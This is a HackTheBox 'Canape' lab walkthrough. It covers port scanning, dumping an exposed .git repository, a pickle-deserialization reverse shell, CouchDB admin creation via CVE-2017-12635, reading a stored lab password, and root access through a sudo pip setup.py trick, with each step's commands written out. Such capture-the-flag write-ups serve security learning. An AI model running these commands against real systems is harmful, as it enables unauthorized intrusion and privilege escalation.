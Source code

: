 # [Canape](https://app.hackthebox.com/machines/canape)

```bash
nmap -p- --min-rate 10000 10.10.10.70 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p80 10.10.10.70 -Pn
```

![alt text](img/image-3.png)

From this result, I can see `.git` directory.

While opening web application, I can see such an webpage.

![alt text](img/image-2.png)


Let's dump all data from `.git` directory from our target by using [git_dumper](https://github.com/arthaud/git-dumper).

```bash
python3 git_dumper.py http://10.10.10.70/.git/ /home/kali/Desktop/webapp
```

![alt text](img/image-1.png)


By looking at `__init__.py` script, I can see `cPickle` library.

![alt text](img/image-4.png)

I searched publicly known exploit and find [this](https://gist.github.com/Ge0rg3/e70e8197244f48bc14843ce738de78d4).

```bash
python2 exploit.py
```

![alt text](img/image-5.png)


I got reverse shell from port `1337`.

![alt text](img/image-6.png)


Let's make interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")';
Ctrl+Z
stty raw -echo;fg
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-7.png)


From `__init__.py` file, we can see that `CouchDB` is used.

![alt text](img/image-8.png)

If I run `netstat -ntpl` command, I can see port `5984` which runs `CouchDB`.

![alt text](img/image-9.png)


Let's enumerate `CouchDB`.

```bash
curl http://127.0.0.1:5984/
```

![alt text](img/image-10.png)

I use this [blog](https://book.hacktricks.xyz/network-services-pentesting/5984-pentesting-couchdb) of `Hacktricks` to make enumeration.


I just understand that this version of `CouchDB` is vulnerable to [CVE-2017-12635](https://github.com/vulhub/vulhub/tree/master/couchdb/CVE-2017-12635). So we need to just make `PUT` request to endpoint to create  `admin` user.

```bash
curl -X PUT -d '{"type":"user","name":"dr4ks","roles":["_admin"],"roles":[],"password":"dr4ks"}' localhost:5984/_users/org.couchdb.user:dr4ks -H "Content-Type:application/json"
```

![alt text](img/image-11.png)


Now, we can enumerate `CouchDB` via `admin` user and I look at documents one by one. Below one give me password.
```bash
curl http://dr4ks:dr4ks@localhost:5984/passwords/739c5ebdf3f7a001bebb8fc4380019e4
```

![alt text](img/image-12.png)


I can know password of `homer` user.

homer: 0B4jyA0xtytZi7esBNGp


Let's login into machine via `ssh` command but we need to specify port which we got from first nmap scan that is `65535`.
```bash
ssh -p 65535 homer@10.10.10.70
```


user.txt

![alt text](img/image-13.png)



For `Privilege Escalation` vector, I just run `sudo -l` command to see privileges of this user.

![alt text](img/image-14.png)


While I looking for privilege escalation attack for `pip`, I found on [Gtfobins](https://gtfobins.github.io/gtfobins/pip/#sudo).


```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

![alt text](img/image-15.png)


root.txt

![alt text](img/image-16.png)
